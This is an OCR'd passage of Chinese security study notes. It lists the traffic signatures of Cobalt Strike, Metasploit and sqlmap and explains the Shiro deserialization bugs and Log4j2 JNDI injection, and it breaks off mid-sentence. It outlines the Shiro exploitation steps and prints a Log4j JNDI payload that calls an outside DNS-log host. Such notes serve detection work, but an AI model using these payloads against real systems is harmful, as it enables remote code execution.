 5、端口特征：CobaltStrike默认使用50050端口进行通信。然而，这个端口是可
以修改的，只需要编辑teamserver文件并修改server_port即可。
6、源码特征：在流量中，通过http协议的url路径，经过checksum8解密算法计
算后，32位的后门得到的结果是92，而64位的后门得到的结果是93
### Metasploit 流量特征
1、端口号：msf数据库默认使用的postgresql的端口可能是5432，msf默认使用
4444端口作为反向连接端口
2、数据内容：msf数据包通常包含特定字符串"meterpreter"、"revshell"等
3、特殊协议：MSF 框架通常会使用一些特殊的协议，例如 Meterpreter、
Reverse TCP 等
### sqlmap流量特征
User-Agent关键字特征：Sqlmap工具在发起请求时，其默认的UserAgent中通常包含“sqlmap”关键字，如“sqlmap/1.5.8#stable
攻击流程的顺序和规律：Sqlmap的攻击流程通常遵循一定的顺序和规律。例如在利用--os-shell攻击时，它会首先测试链接是否能够访问，接着判断操作系统版本，尝试爆绝对路径，指定上传路径，写入一个php文件，找到上传文件的访问路径，上另一个php文件并执行命令等Payload测试语句的模板特征：Sqlmap使用的payload测试语句往往具有模板特征。
例如，在盲注入时，它会使用逻辑语句（如and、or）和特定的函数来测试SQL注入的可行性。这些语句在流量中会以特定的模式出现，如尝试让SQL语句报错来发现SQL漏洞，或者使用特定的函数（如@@version_compile_os）来判断操作系统等。
## 框架以及中间件特征
### Shiro反序列化漏洞原理
Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后
会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先
base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞那么，Payload
产生的过程：命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie
值在整个漏洞利用过程中，比较重要的是AES加密的密钥如果没有修改默认的密
钥那么就很容易就知道密钥了
利用过程
构造Payload：攻击者首先需要将恶意代码序列化为字节流。
AES加密：然后，使用Shiro默认的AES密钥对这个字节流进行加密。
Base64编码：接着，对加密后的字节流进行Base64编码，使其可以作为cookie
值的一部分。
设置Cookie：最后，将这个Base64编码后的值设置为rememberMe cookie的
值，并将其发送给目标服务器。当目标服务器接收到这个恶意的rememberMe
cookie时，它会尝试对其进行解密和反序列化，从而触发漏洞，执行攻击者指定
的恶意代码。
### Shiro550与Shiro721的区别
Shiro550：这个漏洞利用了已知密钥碰撞,不需要真实的rememberMe cookie，
只需要有足够的密钥库来尝试碰撞。
Shiro721：在这个版本中，AES加密的密钥不再是硬编码的，而是系统随机生成
的。这使得攻击者很难直接猜到正确的密钥。然而仍然可以利用登录后的有效
rememberMe cookie作为Padding Oracle Attack的前缀，通过精心构造的cookie
值来实现反序列化漏洞攻击
Shiro反序列化流量特征
未登录状态：请求包的cookie中没有rememberMe字段，返回包set-Cookie里也
没有deleteMe字段。
登录失败：无论是否勾选RememberMe，返回包都会有
rememberMe=deleteMe字段。
不勾选RememberMe登录成功：返回包set-Cookie会有rememberMe=deleteMe
字段，但后续请求中Cookie不会有rememberMe字段。
勾选RememberMe登录成功：返回包set-Cookie会有rememberMe=deleteMe字
段和rememberMe字段，后续请求中Cookie也会有rememberMe字段。
Apache Log4j2 远程代码执行漏洞原理
Apache Log4j2 框架中存在一个名为 JNDI Lookup 的功能，它允许通过配置文件
中的 JNDI 名称引用外部资源。lookup功能的实现类 JndiLookup 的设计缺陷导
致，启动一个JNDI服务，通过rmi注册一个恶意实例，使用lookup远程加载导致
RCE${jndi:ldap://log4j.voxxaq.dnslog.cn}，构造一个特殊的日志消息，其中包含
恶意的 JNDI 名称，并通过网络发送给受影响的应用程序。当应用程序使用
### Log4j2 
框架解析日志消息时，它会尝试查找和引用该 JNDI 名称。如果恶意的
JNDI 名称指向一个恶意的远程资源，例如恶意的 LDAP 服务器或 RMI 服务，攻
击者可以控制该远程资源的内容和行为。攻击者可以在恶意的远程资源中注入恶